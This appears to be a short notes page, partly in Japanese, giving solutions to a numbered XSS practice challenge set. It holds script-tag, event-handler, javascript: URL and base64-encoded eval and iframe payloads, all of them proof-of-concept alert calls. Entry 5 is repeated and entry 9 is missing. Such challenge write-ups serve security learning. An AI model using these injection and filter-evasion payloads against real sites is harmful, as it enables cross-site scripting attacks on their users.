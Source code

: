 ##xss_challenges##

#####1#####
```html
<script>alert(document.domain);</script>
```


#####2#####
```html
" onmouseover='alert(document.domain)'
```


#####3#####
<p>これを</p>
```html
<select name="p2">
    <option>Japan</option>
    <option>Germany</option>
    <option>USA</option>
    <option>United Kingdom</option>
</select>
```

<p>こう</p>
```html
<select name="p2">
    <option>
        <script>
            alert(document.domain);
        </script>
    </option>
</select>
```


####4####
<p>これを</p>
```html
<input type="hidden" value="hackme" name="p3">
```

<p>こう</p>
```html
<input type="hidden" value="hackme" name="p3"><script>alert(document.domain);</script>
```


####5####
<p>maxlengthを適当に増やして</p>
```html
" onmouseover='alert(document.domain)'
```


####5####
<p>maxlengthを適当に増やして</p>
```html
" onmouseover='alert(document.domain)'
```


#####6#####
<p>2と同じ</p>
```html
" onmouseover='alert(document.domain)'
```


#####7#####
<p>6と似てる</p>
```html
" onmouseover=alert(document.domain)
```


#####8#####
```javascript
javascript:alert(document.domain);
```


#####10#####
```sh
$ echo "alert(document.domain);" | base64
YWxlcnQoZG9jdW1lbnQuZG9tYWluKTsK
```

```html
"><script>eval(atob('YWxlcnQoZG9jdW1lbnQuZG9tYWluKTsK'))</script>
```


#####11#####
```sh
$ echo "<script>alert(document.domain);</script>" | base64
PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pOzwvc2NyaXB0Pgo=
```

```html
"><iframe src="data:text/html;charset=utf-8;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pOzwvc2NyaXB0Pgo=">
```
